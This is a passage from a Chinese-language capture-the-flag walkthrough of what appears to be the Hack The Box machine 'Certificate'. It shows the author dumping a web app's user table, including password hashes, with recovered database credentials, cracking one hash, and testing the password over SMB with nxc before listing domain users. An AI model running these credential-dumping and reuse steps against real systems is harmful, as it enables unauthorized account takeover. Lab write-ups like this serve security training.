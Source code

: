 切换到更强大的powershell，然后用mysql.exe连接mysql：

```
PS C:\xampp\mysql\bin> .\mysql.exe -u certificate_webapp_user -p'cert!f!c@teDBPWD' -D
'Certificate_WEBAPP_DB' -e 'show tables;'
```

然后查看其中的users表：

```
PS C:\xampp\mysql\bin> .\mysql.exe -u certificate_webapp_user -p'cert!f!c@teDBPWD' -D 'Certificate_WEBAPP_DB' -e 'select * from users;'
id	first_name	last_name	username	email	password	created_at	role  is_active
1	Lorra	Armessa	Lorra.AAA	lorra.aaa@certificate.htb	$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG	2024-12-23 12:43:10	teacher	1
6	Sara	Laracrof	Sara1200	sara1200@gmail.com	$2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK	2024-12-23 12:47:11	teacher	1
7	John	Wood	Johney	johny009@mail.com	$2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq	2024-12-23 13:18:18	student	1
8	Havok	Watterson	havokww	havokww@hotmail.com	$2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti	2024-12-24 09:08:04	teacher	1
9	Steven	Roman	stev	steven@yahoo.com	$2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2	2024-12-24 12:05:05	student	1
10	Sara	Brawn	sara.b	sara.b@certificate.htb	$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6	2024-12-25 21:31:26	admin	1
12	Hello	user	hellouser	hellouser@mail.com	$2y$04$NE5fcVrrsvAPiqwlsUcKO.91I2EtyXbnqDG17uOsPYYjMoqQ82BiO	2025-10-12 02:49:51	student	1
13	orange	orange	orange	orange@qq.com	$2y$04$eD.6/ArNhblC/9Qc9NcNOu004QeGirAwCAMVmS1wAFfJurtUEHjGC	2025-10-12 07:58:41	student	1
14	zdx	zdx	zdx	zdx@qq.com	$2y$04$oMCjolh.ivW8qu5j84xGl.6SIjSxl9jQ1h3hURUZ0fSg2qBBzZQOO	2025-10-12 08:32:45	student	1
```

其中lorra和sara的email是`@certificate.htb`，可能产生密码复用。我们先用john或者hashcat跑一下密码,

其中sara的密码很快跑出来了，是`Blink182`

我们先用smb服务测试一下：

```
nxc smb 10.10.11.71 -u sara.b -p 'Blink182' --smb-timeout 10 --timeout 10 -t 1 --verbose  --shares
...
SMB         10.10.11.71     445    DC01             [+] certificate.htb\sara.b:Blink182 
```

用户密码正确！我们成功拿到一个域中的账户sara.b/Blink182。--shares看了下只有默认共享。

可以--users 跑一下用户看看（也可以在powershell中`Get-ADUser`查看）：

```
SMB         10.10.11.71     445    DC01             Administrator                 2025-04-28 21:33:46 0       Built-in account for administering the computer/domain
SMB         10.10.11.71     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.10.11.71     445    DC01             krbtgt                        2024-11-03 09:24:32 0       Key Distribution Center Service Account
SMB         10.10.11.71     445    DC01             Kai.X                         2024-11-04 00:18:06 0
SMB         10.10.11.71     445    DC01             Sara.B                        2024-11-04 02:01:09 0
SMB         10.10.11.71     445    DC01             John.C                        2024-11-04 02:16:41 0
SMB         10.10.11.71     445    DC01             Aya.W                         2024-11-04 02:17:43 0
SMB         10.10.11.71     445    DC01             Nya.S                         2024-11-04 02:18:53 0
SMB         10.10.11.71     445    DC01             Maya.K                        2024-11-04 02:20:01 0
```